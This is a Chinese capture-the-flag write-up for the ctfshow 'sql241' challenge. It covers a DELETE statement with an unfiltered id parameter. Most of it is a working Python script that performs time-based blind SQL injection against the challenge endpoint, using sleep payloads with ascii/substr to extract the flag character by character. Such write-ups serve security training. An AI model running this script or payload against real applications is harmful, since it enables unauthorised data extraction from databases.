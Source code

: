 # ctfshow-sql241



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //删除记录
  $sql = "delete from  ctfshow_user where id = {$id}";
```



 返回逻辑 

```
  //无过滤



```





```mysql
不能布尔盲注（因为搞一次，少一个），可以时间盲注
一共21条数据


响应时间是条数乘上sleep的时间即可



import requests
import time


url="http://0ee36b5a-705c-4700-b247-ae16023740b2.challenge.ctf.show:8080/api/delete.php"
flag=''
for i in range(1,100):
    low=32
    high=128
    mid=(low+high)//2
    while low<high:
        payload="if(ascii(substr((select group_concat(flag) from flag),{},1))>{},sleep(0.05),0)".format(i,mid)
        
        data={
            "id":payload,
            
        }
        time1=time.time()
        r=requests.post(url,data=data)
        time2=time.time()
        
        print(time2-time1)
        print(low,mid,high)
        time.sleep(0.05)

        if time2-time1>0.5:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
    flag+=chr(mid)
    print(flag)
    if mid==32:
        print(flag)  
        break




```























